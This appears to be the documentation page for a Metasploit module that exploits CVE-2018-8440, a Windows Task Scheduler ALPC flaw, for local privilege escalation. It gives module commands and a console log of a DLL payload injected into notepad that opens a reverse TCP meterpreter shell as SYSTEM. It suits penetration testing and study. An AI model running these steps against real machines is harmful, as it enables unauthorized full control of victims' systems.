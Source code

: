 ## Description

On vulnerable versions of Windows the alpc endpoint method SchRpcSetSecurity implemented by the task scheduler service can be used to write arbitrary DACLs to `.job` files located in `c:\windows\tasks` because the scheduler does not use impersonation when checking this location. Since users can create files in the `c:\windows\tasks` folder, a hardlink can be created to a file the user has read access to. After creating a hardlink, the vulnerability can be triggered to set the DACL on the linked file. This module has been tested against Windows 10 Pro x64.

## Vulnerable Application

Affected Windows OS versions and related patch details can be found in the [Microsoft Advisory for CVE-2018-8440](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440).

## Verification Steps

* Get a meterpreter session on Windows 10 x64
* `use exploit/windows/local/alpc_taskscheduler`
* `set session <session>`
* `set payload <payload>`
* `set lhost <lhost>`
* `run`
* Get a session as SYSTEM

## Scenarios

### Tested on Windows 10 Pro Version 1803 x64

```
msf5 exploit(windows/local/alpc_taskscheduler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x64/windows  DESKTOP-IPOGIJR\msfdev @ DESKTOP-IPOGIJR  172.22.222.243:4444 -> 172.22.222.200:50490 (172.22.222.200)

msf5 exploit(windows/local/alpc_taskscheduler) > run

[*] Started reverse TCP handler on 172.22.222.243:4444 
[*] Checking target...
[*] Attempting to PrivEsc on DESKTOP-IPOGIJR via session ID: 1
[*] Payload (5120 bytes) uploaded on DESKTOP-IPOGIJR to C:\Users\msfdev\AppData\Local\Temp\lbNjsaazXMT.dll
[*] Target Looks Good... trying to start notepad
[*] Launching notepad to host the exploit...
[+] Process 3768 launched.
[*] Attempting to change the payload path to C:\Users\msfdev\AppData\Local\Temp\lbNjsaazXMT.dll...
[*] Reflectively injecting the exploit DLL into 3768...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 172.22.222.200
[*] Meterpreter session 2 opened (172.22.222.243:4444 -> 172.22.222.200:50491) at 2018-09-17 17:37:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
